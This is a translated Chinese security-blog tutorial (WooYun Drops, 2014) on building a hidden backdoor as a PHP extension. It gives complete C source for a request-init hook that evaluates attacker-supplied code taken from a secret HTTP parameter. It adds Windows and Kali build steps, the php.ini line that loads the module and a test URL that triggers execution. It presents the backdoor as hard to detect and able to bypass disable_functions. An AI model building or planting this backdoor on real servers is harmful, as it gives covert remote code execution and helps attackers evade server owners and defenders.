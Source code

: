 # 编写基于 PHP 扩展库的后门

2014/09/17 16:23 | [lxj616](http://drops.wooyun.org/author/lxj616 "由 lxj616 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

from:[`stackoff.ru/pishem-rasshirenie-bekdor-dlya-php/`](http://stackoff.ru/pishem-rasshirenie-bekdor-dlya-php/)

## 0x00 前言

* * *

今天我们将讨论编写基于 PHP 扩展库的后门。通常来说，大部分入侵者都会在脚本中留下自定义代码块后门。当然，这些东西很容易通过源代码的静态或动态分析找到。

利用 PHP 扩展库的好处显而易见：

```
很难寻找
绕过 disable_functions 选项 
有能力控制所有的代码
访问代码执行的 API 
```

但是我们需要有编辑 PHP 配置文件的能力。

## 0x01 细节

* * *

//【译者注：用 linux 两条命令搞定了，何必 windows 费这么大劲】
作为例子，我会用 Windows 来写。写扩展我用的 Visual Studio 2012 Express 版本。还需要的源代码最新版本，编译 PHP 库（可从同一来源收集）。为简单起见，我们需要是的 php-5.5.15-Win32 的 VC11-86 和源 PHP-5.5.15-src.zip

解压使用 C 编译 PHP:PHP，源代码在 C:PHP-SRC。

然后，你需要进行一些设置。

1）添加预处理器定义：

```
ZEND_DEBUG=0 
ZTS=1
ZEND_WIN32 
PHP_WIN32 
```

![enter image description here](img/img1_u98_jpg.jpg)

预处理器定义
2）添加的目录，用于连接源：

```
C: PHP-SRCmain
C: PHP-SRCend
C: PHP-SRCTSRM
C: PHP-SRC
egex
C: PHP-SRC 
```

![enter image description here](img/img2_u78_jpg.jpg)

其他目录连接

3）添加其他目录中 liboy php5ts.lib（C： PHP dev 的）

![enter image description here](img/img3_u73_jpg.jpg)

其他目录库
4）添加连接库 php5ts.lib。

![enter image description here](img/img4_u41_jpg.jpg)

装配额外的库

5）指定收集文件的路径。

![enter image description here](img/img5_u66_jpg.jpg)

保存配置文件
配置参数为 Workspace 扩展的开发后（详情可以在 http://blog.slickedit.com/2007/09/creating-a-php-5-extension-with-visual-c-2005/找到），创建一个新的项目类型后门“控制台应用程序的 Win32”。

![enter image description here](img/img6_u42_jpg.jpg)

在 Visual StudioVyberem 型“库 DLL»项目”
选择合适类型

![enter image description here](img/img7_u40_jpg.jpg)

然后，从项目中删除不必要的文件。应该只需要 backdoor.cpp，STDAFX.CPP 和 stdafx.h 中。

在头文件 stdafx.h 中
：

```
#pragma once
#ifndef STDAFX
#define STDAFX
#include "zend_config.w32.h" 
#include "php.h"
#endif 
```

现在，我们直接进入 PHP 扩展的代码。删除所有行，并添加所需的文件连接。

```
#include "stdafx.h"
#include "zend_config.w32.h"
#include "php.h" 
```

如果 workspace 设置已经正确，警告就会消失。
当模块被初始化时，会有几个事件，其中每一个都在特定条件下发生。我们需要在查询执行时，去执行我们的代码。要做到这一点，你必须初始化我们所需要的功能，我给它命名为«hideme»。
    PHP_RINIT_FUNCTION(hideme);
然后你可以去看模块的初始化。

```
zend_module_entry hideme_ext_module_entry = {
    STANDARD_MODULE_HEADER,
    "simple backdoor",
    NULL,
    NULL,
    NULL,
    PHP_RINIT(hideme),
    NULL, 
    NULL,
    "1.0",
    STANDARD_MODULE_PROPERTIES
};
ZEND_GET_MODULE(hideme_ext); 
```

在这篇文章中，我们只需要加载中代码被执行即可，因此运行和卸载模块由空取代。
现在，你可以去看 hideme 的函数体。

```
PHP_RINIT_FUNCTION(hideme)
{

    char* method = "_POST"; //超全局数组，从中我们采取 perametr 和价值   char* secret_string = "secret_string"; //参数，这将是运行的代码    
    //【译者注：在原文作者的 github 代码中 method 是 get，secret_string 是 execute，请大家按照 github 代码进行测试，不修改原文了】
    zval** arr;
    char* code;

    if (zend_hash_find(&EG(symbol_table), method, strlen(method) + 1, (void**)&arr) != FAILURE) { 
        HashTable* ht = Z_ARRVAL_P(*arr);
        zval** val;
        if (zend_hash_find(ht, secret_string, strlen(secret_string) + 1, (void**)&val) != FAILURE) { //查找散列表中所需的参数          
    code =  Z_STRVAL_PP(val); //值
    zend_eval_string(code, NULL, (char *)"" TSRMLS_CC); //代码执行
        }
    }
    return SUCCESS;
} 
```

注释应该比较清楚。最初，我们设置 HTTP 方法和参数 secret_string。然后再寻找正确的数组参数，如果有的话，我们就从它的值中取指令，并通过 zend_eval_string 执行代码。
编译后的所得，即可作为一个扩展库。

下载源代码

[`github.com/akamajoris/php-extension-backdoor`](https://github.com/akamajoris/php-extension-backdoor)

## 0x02 测试

* * *

//以下为译者测试截图：

![enter image description here](img/img8_u68_png.jpg)

```
http://127.0.0.1:1629/20140917/test.php?execute=phpinfo(); 
```

（因为原作者 github 代码设置的是 execute）

Linux 编译（kali）

```
apt-get install php5-dev
phpize && ./configure && make 
```

在 kali 下测试一遍成功，我比较懒，直接 chmod 后把 so 复制到/var/www 了哈哈

然后 php.ini 加上

```
extension=/var/www/back.so 
```

重启 apache，测试成功

版权声明：未经授权禁止转载 [lxj616](http://drops.wooyun.org/author/lxj616 "由 lxj616 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [浅谈 PHP 弱类型安全](http://drops.wooyun.org/tips/4483)
*   [WordPress 3.5.1 远程代码执行 EXP](http://drops.wooyun.org/papers/785)
*   [PHP 绕过 open_basedir 列目录的研究](http://drops.wooyun.org/tips/3978)
*   [深入分析 Fiesta Exploit Kit](http://drops.wooyun.org/tips/4858)
*   [攻击 JavaWeb 应用[4]-SQL 注入[2]](http://drops.wooyun.org/tips/288)
*   [JBoss 安全问题总结](http://drops.wooyun.org/papers/178)